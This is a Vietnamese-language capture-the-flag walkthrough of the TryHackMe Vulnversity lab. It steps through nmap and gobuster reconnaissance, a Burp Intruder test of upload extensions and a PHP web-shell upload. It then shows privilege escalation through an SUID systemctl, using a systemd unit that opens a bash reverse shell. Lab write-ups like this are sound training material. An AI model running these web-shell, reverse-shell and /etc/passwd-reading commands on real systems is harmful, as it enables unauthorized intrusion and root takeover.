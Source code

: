 # Vulnversity

## 1. Deploy machine
-.- Ấn deploy là được mà bro
## 2. Reconnaissance
Thu thập thông tin về machine dùng công cụ network scanning `Nmap` 
![](img/2021-08-31-00-19-46.png)
```
nmap -sV -sC 10.10.46.196
```
Trong đó :
+ -sV: là xác định các service
+ -sC: chạy các script scan mặc định của nmap
+ -p-400: số port nmap quét
+ -n: không resolve ra dns

Từ đó trả lời các câu hỏi.
+ Scan the box, how many ports are open? : 6
+ What version of the squid proxy is running on the machine? 3.5.12
+ How many ports will nmap scan if the flag -p-400 was used? 400
+ Using the nmap flag -n what will it not resolve? DNS
+ What is the most likely operating system this machine is running? Ubuntu (Thấy các dịch vụ chạy của Ubuntu)
+ What port is the web server running on? : 3333. (Ta thấy có Apache httpd)

## 3. Locating directories using GoBuster
Sử dụng tool `gobuster` để tìm directory của các thư mục.
Trong kali linux thì sẽ có wordlist có sẵn ở thư mục : `/usr/share/wordlists/dirbs/common.txt` (tuy nhiên ở đây mình dùng ubuntu, tải wordlist tại: https://github.com/3ndG4me/KaliLists/tree/master/dirb )

Chạy command : 

```
gobuster dir -u http://10.10.46.196:3333 -w /usr/share/wordlists/dirbs/common.txt
```
Trong đó:
+ -u : target URL
+ -w : địa chỉ wordlist
![](img/2021-08-31-00-35-10.png)
=> kết quả là tìm được url : `/internal/` => truy cập được trang uploads file
## 4. Compromise the webserver
Sử dụng burpsuite community để bắt request và tìm ra extension có thể upload được file lên, mục đích là upload được file shell lên để RCE.

+ Truy cập trang : http://10.10.46.196:3333/internal
![](img/2021-08-31-00-38-55.png)
+ Ấn upload file và dừng ở POST request (intercept is on):
![](img/2021-08-31-00-40-27.png)
+ Chuột phải chọn : `Intruder` (Là trang mà ta có thể bruteforce để tìm ra extension phù hợp) => `Clear$` => bôi đen phần extension của file vừa up lên => `Add$`
![](img/2021-08-31-00-43-34.png)
+ Trang Payloads : thê những extension : `.php`, `.php2`, `.php3`. `.php5`, `.phtml`
![](img/2021-08-31-00-44-56.png)
+ Start attack:
![](img/2021-08-31-00-45-31.png)
Chú ý phần kết quả length của `phtml` khác so với phần còn lại (Do trả về chữ success nhỏ hơn chữ Extension not allowed) => có thể upload file `.phtml`

Bước 1 : chuẩn bị file hehe.phtml
```
<?php
    system($_GET('cmd'));
?>
```
Sau khi upload thành công, truy cập bằng đường dẫn :
```
http://10.10.46.196:3333/internal/uploads/hehe.phtml?cmd=cat /etc/passwd
```
Bước 2 : Thực ra phải tải file shell php của tryhackme gợi ý để có thể RCE bằng netcat
+ Tải file và sửa phần 'CHANGE THIS'
+ Sau đó dùng netcat để nghe trên port '1234':
```
nc -lvnp 1234
```
+ Truy cập vào đường dẫn `http://10.10.46.196:3333/internal/uploads/hehe.phtml` để kích hoạt shell.
+ Quay lại trên trình duyệt và gõ  `cat /etc/passwd`
## 5. Privilege Escalation
*Phần này là phần hay nhất :V*

Ngoài các quyền đặc biệt r, w, x còn có `special permission` đó là : SUID, SGID và sticky bits. Trong bài này dùng SUID.

SUID thường được sử dụng trên các file thực thi. Các file nào có bit `s` thì có thể thực hiện với quyền là chủ sở hữu của file đó.
Ví dụ: file sở hữu bởi root và được set SUID bit, thì bất kể ai thực thi file đó luôn chạy dưới quyền root.
+ Câu lệnh để tìm tất cả các file có SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta được kết quả:

![](img/2021-08-31-01-13-50.png)
+ Và thử :
```
passwd bill
or
passwd
```
Thì không được là do `whoami` đang là www-data, và passwd chỉ có thể dùng được khi bạn à root hoặc là chủ sở hữu của user đó.
=> `/bin/systemctl`

Source chưa các file có thể RCE : https://gtfobins.github.io/

Chạy lệnh ở máy host để lắng nghe ở port 4444:
```
nc -lvnp 4444
```
+ Tạo service chạy dưới systemd với tên `hehe.service`
```
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.46.196/4444 0>&1'
[Install]
WantedBy=multi-user.target
```
+ Chạy lệnh
```
systemctl enable /tmp/hehe.service
systemctl start hehe.service
```
+ Quay lại máy host :D và :
```
cat /root/root.txt
```
![](img/2021-08-31-01-24-08.png)

Done

--- 
> Author : dangdh11

> Reference : https://gtfobins.github.io/
https://blog.tryhackme.com/vulnversity/